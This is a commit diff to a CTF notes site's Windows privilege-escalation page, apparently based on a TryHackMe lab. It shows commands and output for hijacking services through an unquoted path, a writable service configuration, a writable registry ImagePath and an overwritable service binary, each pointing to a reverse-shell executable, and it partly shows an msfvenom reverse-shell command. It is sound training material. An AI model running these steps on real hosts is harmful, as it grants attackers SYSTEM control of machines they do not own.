

Before and after one commit to xanhacks/ctf-docs, an MkDocs documentation site: the page built from docs/pentest/privesc/windows.md, in a window 1280 px wide and 1400 px high, scrolled down 1898 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; before the commit the page ends 2400 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
add more service privesc

````diff
--- a/docs/pentest/privesc/windows.md
+++ b/docs/pentest/privesc/windows.md
@@ -19,61 +19,14 @@ $ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.52.128 LPORT=8888 -f exe
 
 Using [nishang](https://github.com/samratashok/nishang).
 
-## Permissions
+## Services
 
-## View
+### Unquoted path
 
-List permissions of a user using `accesschk.exe`.
-
-```powershell
-C:\> accesschk.exe /accepteula -uwcqv <USER> <SERVER>
-
-C:\> accesschk.exe /accepteula -uwcqv user daclsvc
-RW daclsvc
-        SERVICE_QUERY_STATUS
-        SERVICE_QUERY_CONFIG
-        SERVICE_CHANGE_CONFIG
-        SERVICE_INTERROGATE
-        SERVICE_ENUMERATE_DEPENDENTS
-        SERVICE_START
-        SERVICE_STOP
-        READ_CONTROL
-```
-
-## SERVICE_CHANGE_CONFIG
-
-**SERVICE_CHANGE_CONFIG :** Change the service configuration.
-
-```powershell
-# Check the service 'daclsvc' configuration (qc : query configuration)
-C:\PrivEsc>sc qc daclsvc
-[SC] QueryServiceConfig SUCCESS
-
-SERVICE_NAME: daclsvc
-        TYPE               : 10  WIN32_OWN_PROCESS
-        START_TYPE         : 3   DEMAND_START
-        ERROR_CONTROL      : 1   NORMAL
-        BINARY_PATH_NAME   : "C:\Program Files\DACL Service\daclservice.exe"
-        LOAD_ORDER_GROUP   :
-        TAG                : 0
-        DISPLAY_NAME       : DACL Service
-        DEPENDENCIES       :
-        SERVICE_START_NAME : LocalSystem
-
-# Change the binpath value
-C:\PrivEsc>sc config daclsvc binpath="\"C:\Users\user\revshell.exe\""
-[SC] ChangeServiceConfig SUCCESS
-
-C:\PrivEsc>sc qc daclsvc
-[...]
-        BINARY_PATH_NAME   : "C:\Users\user\revshell.exe"
-[...]
-
-# Start the service 'daclsvc'
-C:\PrivEsc>net start daclsvc
-```
-
-## Service unquoted path
+- `C:\Program.exe`
+- `C:\Program Files\Unquoted.exe`
+- `C:\Program Files\Unquoted Path Service\Common.exe`
+- `C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe`
 
 ```powershell
 C:\PrivEsc>sc qc unquotedsvc
@@ -106,3 +59,138 @@ C:\PrivEsc>copy C:\Users\user\revshell.exe "C:\Program Files\Unquoted Path Servi
 C:\PrivEsc>net start unquotedsvc
 ...
 ```
+
+### Insecure service permissions
+
+List permissions of a user using `accesschk.exe`.
+
+```powershell
+C:\> accesschk.exe /accepteula -uwcqv <USER> <SERVER>
+
+C:\> accesschk.exe /accepteula -uwcqv user daclsvc
+RW daclsvc
+        SERVICE_QUERY_STATUS
+        SERVICE_QUERY_CONFIG
+        SERVICE_CHANGE_CONFIG
+        SERVICE_INTERROGATE
+        SERVICE_ENUMERATE_DEPENDENTS
+        SERVICE_START
+        SERVICE_STOP
+        READ_CONTROL
+```
+
+**SERVICE_CHANGE_CONFIG** : Change the service configuration.
+
+```powershell
+# Check the service 'daclsvc' configuration (qc : query configuration)
+C:\PrivEsc>sc qc daclsvc
+[SC] QueryServiceConfig SUCCESS
+
+SERVICE_NAME: daclsvc
+        TYPE               : 10  WIN32_OWN_PROCESS
+        START_TYPE         : 3   DEMAND_START
+        ERROR_CONTROL      : 1   NORMAL
+        BINARY_PATH_NAME   : "C:\Program Files\DACL Service\daclservice.exe"
+        LOAD_ORDER_GROUP   :
+        TAG                : 0
+        DISPLAY_NAME       : DACL Service
+        DEPENDENCIES       :
+        SERVICE_START_NAME : LocalSystem
+
+# Change the binpath value
+C:\PrivEsc>sc config daclsvc binpath="\"C:\Users\user\revshell.exe\""
+[SC] ChangeServiceConfig SUCCESS
+
+C:\PrivEsc>sc qc daclsvc
+[...]
+        BINARY_PATH_NAME   : "C:\Users\user\revshell.exe"
+[...]
+
+# Start the service 'daclsvc'
+C:\PrivEsc>net start daclsvc
+```
+
+### Insecure registry permissions
+
+Add registy keys :
+
+```powershell
+C:\PrivEsc>sc qc regsvc
+[SC] QueryServiceConfig SUCCESS
+
+SERVICE_NAME: regsvc
+        TYPE               : 10  WIN32_OWN_PROCESS
+        START_TYPE         : 3   DEMAND_START
+        ERROR_CONTROL      : 1   NORMAL
+        BINARY_PATH_NAME   : "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe"
+        LOAD_ORDER_GROUP   :
+        TAG                : 0
+        DISPLAY_NAME       : Insecure Registry Service
+        DEPENDENCIES       :
+        SERVICE_START_NAME : LocalSystem
+
+# regsvc service is writable by the "NT AUTHORITY\INTERACTIVE" group (essentially all logged-on users)
+C:\PrivEsc>accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
+HKLM\System\CurrentControlSet\Services\regsvc
+  Medium Mandatory Level (Default) [No-Write-Up]
+  RW NT AUTHORITY\SYSTEM
+        KEY_ALL_ACCESS
+  RW BUILTIN\Administrators
+        KEY_ALL_ACCESS
+  RW NT AUTHORITY\INTERACTIVE
+        KEY_ALL_ACCESS
+
+# Add registry key to execute reverse shell
+C:\PrivEsc>reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\Users\User\revshell.exe /f
+The operation completed successfully.
+
+C:\PrivEsc>net start regsvc
+...
+```
+
+### Insecure file permissions
+
+Service binary file is writable by everyone (`BUILTIN\Users`) :
+
+```powershell
+C:\PrivEsc>sc qc filepermsvc
+[SC] QueryServiceConfig SUCCESS
+
+SERVICE_NAME: filepermsvc
+        TYPE               : 10  WIN32_OWN_PROCESS
+        START_TYPE         : 3   DEMAND_START
+        ERROR_CONTROL      : 1   NORMAL
+        BINARY_PATH_NAME   : "C:\Program Files\File Permissions Service\filepermservice.exe"
+        LOAD_ORDER_GROUP   :
+        TAG                : 0
+        DISPLAY_NAME       : File Permissions Service
+        DEPENDENCIES       :
+        SERVICE_START_NAME : LocalSystem
+
+C:\PrivEsc>accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
+C:\Program Files\File Permissions Service\filepermservice.exe
+  Medium Mandatory Level (Default) [No-Write-Up]
+  RW Everyone
+        FILE_ALL_ACCESS
+  RW NT AUTHORITY\SYSTEM
+        FILE_ALL_ACCESS
+  RW BUILTIN\Administrators
+        FILE_ALL_ACCESS
+  RW WIN-QBA94KB3IOF\Administrator
+        FILE_ALL_ACCESS
+  RW BUILTIN\Users
+        FILE_ALL_ACCESS
+
+# Replace service binary file by a reverse shell
+C:\PrivEsc>copy C:\Users\user\revshell.exe "C:\Program Files\File Permissions Service\filepermservice.exe"
+Overwrite C:\Program Files\File Permissions Service\filepermservice.exe? (Yes/No/All): Yes
+Yes
+        1 file(s) copied.
+
+C:\PrivEsc>net start filepermsvc
+...
+```
+
+## References
+
+- https://tryhackme.com/room/windows10privesc
````
